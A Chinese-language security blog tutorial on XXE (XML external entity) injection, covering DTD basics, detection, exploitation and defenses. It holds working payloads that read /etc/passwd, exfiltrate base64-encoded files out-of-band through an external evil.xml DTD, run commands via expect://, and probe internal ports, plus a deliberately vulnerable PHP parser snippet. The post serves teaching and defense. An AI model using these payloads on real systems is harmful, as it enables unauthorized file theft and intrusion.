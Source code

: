 ```yaml
---
title: XXE（XML External Entity）漏洞
date: 2019-03-01 08:59:43
tags: 
	- XXE
	- XML注入
	- OWASP Top10 2017
categories: WEB漏洞学习
---
```


## 0x00 必备XML基础知识

DTD（文档类型定义）的作用是定义 XML 文档的合法构建模块。DTD 可以在 XML 文档内声明，也可以外部引用。

DTD实体是用于定义引用普通文本或特殊字符的快捷方式的变量，可以内部声明或外部引用。实体的声明是在DTD声明里面的，属于DTD声明的一部分。

<!-- more -->

![](XXE\InkedQQ截图20190301091748_LI.jpg)

更多XML基础知识跳转[这里](https://sakuxa.com/2019/02/28/xml/)。

## 0x01 XXE漏洞概述

XXE -"xml external entity injection"即"xml外部实体注入漏洞"。

攻击者通过向服务器注入指定的xml实体内容,从而让服务器按照指定的配置进行执行,导致问题。
也就是说服务端接收和解析了来自用户端的xml数据,而又没有做严格的安全控制,从而导致xml外部实体注入。

在PHP里面解析xml用的是libxml,其在≥2.9.0的版本中,默认是禁止解析xml外部实体内容的。可以使用phpinfo()查看libxml的版本信息。 

![](XXE\QQ截图20190301093413.png)

**漏洞检测：**

首先，检测XML是否会被解析。`&xxe;`是否会被解析为"this is xxe".(注意：GET请求时记得把`&`进行URL编码)

> Payload:`<!DOCTYPE ANY [ <!ENTITY xxe "this is xxe.."> ]> <x>&xxe;</x>`

然后，检测服务器是否支持外部实体。执行Payload后查看`test.com`服务器的http访问日志，看是否存在`GET /xxe_test HTTP/1.0`的请求，若存在则证明支持外部实体。

> Payload:`<!DOCTYPE ANY [ <!ENTITY xxe SYSTEM  "http://test.com/xxe_test"> ]><x>&xxe;</x>`

## 0x02 恶意引入外部实体

**情景一：**

```xml
<?xml version="1.0"?>
<!DOCTYPE note [    
  <!ELEMENT note any>   
 
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >
]>

<note> &xxe; </note>
```

**情景二：**

```xml
<?xml version="1.0"?>
<!DOCTYPE note [    
  <!ELEMENT note any>   
 
  <!ENTITY % hack SYSTEM "hack.dtd" >
  % hack  //会被hack.dtd的内容替换。
]>

<note> &xxe; </note>
```

`hack.dtd`文件内容：

```xml-dtd
<!ENTITY xxe SYSTEM "file:///etc/passwd" >
```

**情景三：**

```xml
<?xml version="1.0"?>
<!DOCTYPE note SYSTEM "hack.dtd">

<note> &xxe; </note>
```

`hack.dtd`文件内容：

```xml-dtd
<!ENTITY xxe SYSTEM "file:///etc/passwd" >
```

**外部引用实体时，不同的程序可以使用的协议不一样：**

![](XXE\15129735161149.png)

## 0x03 XXE漏洞利用

利用xxe漏洞可以进行拒绝服务攻击，文件读取，命令(代码)执行，SQL(XSS)注入，内外扫描端口，入侵内网站点等，内网探测和入侵是利用xxe中支持的协议进行内网主机和端口发现，可以理解是使用XXE进行SSRF的利用。

一般XXE利用分为两大场景：有回显和无回显。

> - 有回显的情况可以直接在页面中看到Payload的执行结果或现象。
> - 无回显的情况又称为Blind XXE，可以使用带外数据通道提取数据。

基本漏洞源码：

```php
<?php
    $xml=simplexml_load_string($_REQUEST['xml']);
    echo "<p>$xml</p>"
?>
```

**1.任意文件读取：**

**有回显的情况：**

Payload:`<!DOCTYPE note [<!ELEMENT note ANY ><!ENTITY xxe SYSTEM "file:///S://aa.txt">]><note>&xxe;</note>` 

![](S:\hexo\myblog\source\_posts\XXE\QQ截图20190301133421.png)

![](XXE\QQ截图20190301133122.png)

**无回显的情况：**

`%file;`会调用php插件对要读取的文件内容进行Base64编码。

`%dtd;`会请求我们编写好的`evil.xml`文件，会被`evil.xml`文件内容替换。

`%payload;`被`<!ENTITY &#x25; send SYSTEM 'http://localhost/?content=%file;'>`替换。

`%send;`会向我们的服务器发送一次请求，请求的参数是被编码的文件内容，此时我们去查看`http`的访问日志就能看到被编码的文件内容，进行Base64解码就能得到文件内容。

Payload:

```xml-dtd
<!DOCTYPE note [ 
  <!ELEMENT note ANY >
  <!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/S:/test.txt">
  <!ENTITY % dtd SYSTEM "http://localhost/evil.xml">
  %dtd; %payload; %send;  ]>
```

`evil.xml`文件内容：内部`send`的`%`要用实体：`&#x25;`

```xml-dtd
<!ENTITY % payload "<!ENTITY &#x25; send SYSTEM 'http://localhost/?content=%file;'>"> 
```

`http`访问日志：（到配置文件`http.conf`里找到`CustomLog "logs/access.log" common`并删除掉`#`号注释）

![](XXE\QQ截图20190301152037.png)

**PS:**之所以要引入文件`evil.xml`原因是不能在实体定义中引用参数实体，即有些解释器不允许在内层实体中使用外部连接，无论内层是一般实体还是参数实体。

Base64解码：

![](XXE\QQ截图20190301152528.png)

**2.命令执行：**

安装了expect扩展的PHP环境可以执行系统命令，其他协议也有可能存在其他执行系统命令的方法。

[expect](http://php.net/manual/zh/wrappers.expect.php)封装协议默认未开启。

Payload:`<!DOCTYPE ANY [ <!ENTITY xxe SYSTEM "expect://whoami"> ]><x>&xxe;</x>`

**3.内网端口探测：**

Payload:`<!DOCTYPE ANY [ <!ENTITY xxe SYSTEM "http://localhost:81"> ]><x>%26xxe;</x>`

## 0x04 漏洞防御

- 尽可能使用简单的数据格式（如：JSON），避免对敏感数据进行序列化。
- 及时修复或更新应用程序或底层操作系统使用的所有XML处理器和库。
- 在服务器端实施积极的（“白名单”）输入验证、过滤和清理，以防止在XML文档、标题或节点中出现恶意数据。关键词：<!DOCTYPE和<!ENTITY，或者，SYSTEM和PUBLIC。
- 使用开发语言提供的禁用外部实体的方法。

**参考链接：**

https://github.com/JnuSimba/MiscSecNotes/blob/master/XML%E6%B3%A8%E5%85%A5/XXE%E6%BC%8F%E6%B4%9E.md

https://www.cnblogs.com/backlion/p/9302528.html

https://www.jianshu.com/p/77f2181587a4